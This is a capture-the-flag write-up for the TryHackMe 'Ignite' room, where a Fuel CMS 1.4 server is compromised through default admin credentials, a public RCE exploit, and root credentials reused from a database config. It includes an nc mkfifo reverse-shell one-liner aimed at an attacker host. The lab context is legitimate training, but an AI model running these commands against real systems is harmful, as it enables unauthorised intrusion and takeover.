# Room: [Ignite](https://tryhackme.com/room/ignite)

## Overview
This write‑up covers the *Ignite* room on [TryHackMe](https://tryhackme.com), created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).

The objective of this room is to investigate a partially configured web service, identify the weakness introduced during installation, and use it to gain full system access.

## Setup
- **Tools used:** `nmap`,`searchploit`
- **Techniques:** `service enumeration`, `misconfiguration analysis`
- **Notes:** I completed this room about two weeks ago and am documenting it retrospectively. The methodology below reflects how I approached it at the time. Looking back after working on harder rooms, I can already see places where I would streamline or improve the process today.

---

## Methodology

#### Enumeration

I began with a standard `nmap` scan to identify open ports, running services, and default scripts:

```bash
nmap -sV -sC <target IP>
```



The scan revealed a single open port: `HTTP (80)`, and the service banner referenced `Fuel CMS`, which immediately suggested a web‑based content management system running on the target.



Visiting the webpage confirmed this. It was the default `Fuel CMS` landing page, clearly showing version `1.4`.

Scrolling through the page revealed setup instructions and configuration notes, which hinted that the installation might not be fully secured.

One detail that stood out was the documentation referencing the database configuration file located at `fuel/application/config/database.php`. This suggested that sensitive information, such as credentials, might be stored there.



The documentation also mentioned the existence of an admin panel located at `http://<Target IP>/fuel`, along with the default credentials `admin:admin`.



Visiting the `/fuel` endpoint brought up the login page, and using the default credentials successfully granted access.



However, the interface appeared to be in a default or incomplete state. Browsing through the available options didn’t reveal any obvious functionality that could be leveraged further.



Since the web interface didn’t provide a clear path forward, I turned to `searchsploit` to look for known issues affecting this specific version of Fuel CMS (1.4.1).



A remote code execution exploit was available, so I copied it to my working directory using:

```bash
searchsploit -m <Exploit Number>
```



With the exploit copied to my machine, I opened the downloaded file `47138.py` and updated the `URL` parameter so it pointed to the target system.      
The script also included a proxy configuration line, which didn’t work in this environment, so I commented it out.



Running the script produced a shell, landing me in a session as the `www-data` user.
   


#### Privilege Escalation

To make the session easier to work with, I opened a reverse shell back to my machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Port> >/tmp/f
```

  


With the shell established as `www-data`, I was able to retrieve the user flag.     
Unusually, it was located in `/home/www-data`.



Earlier in the room, the `Fuel CMS` setup page mentioned the location of the database configuration file.    
Checking that directory now revealed stored credentials.



Inside the configuration file, the database entry included the username `root` along with its associated password.



After upgrading the shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

I used `su` to switch to the `root` user, and the credentials worked.



From there, I accessed the `root` flag in the `root` home directory.




---
